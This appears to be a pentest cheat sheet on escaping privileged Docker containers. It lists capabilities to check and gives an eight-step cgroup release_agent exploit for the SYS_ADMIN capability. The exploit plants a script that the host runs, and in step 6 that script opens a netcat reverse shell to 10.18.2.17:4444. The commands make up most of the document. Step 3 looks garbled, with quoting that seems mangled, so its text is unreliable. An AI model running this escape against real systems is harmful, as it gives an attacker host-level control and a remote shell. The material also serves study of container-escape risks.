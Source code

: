 # Privileged Containers

## Command to list

    capsh --print

### Interesting privileges: cap_net_admin, cap_sys_time, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid, cap_setuid

## Example: If we have the sys_admin privilege, we can use the following PoC https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

#### 1.  

    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

#### 2.  

    echo 1 > /tmp/cgrp/x/notify_on_release

#### 3.  

    host_path='sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab'

#### 4.  

    echo "$host_path/exploit" > /tmp/cgrp/release_agent

#### 5.  

    echo '#!/bin/sh' > /exploit

#### 6.  

    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.2.17 4444 >/tmp/f" >> /exploit

#### 7.  

    chmod a+x /exploit

#### 8.  

    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
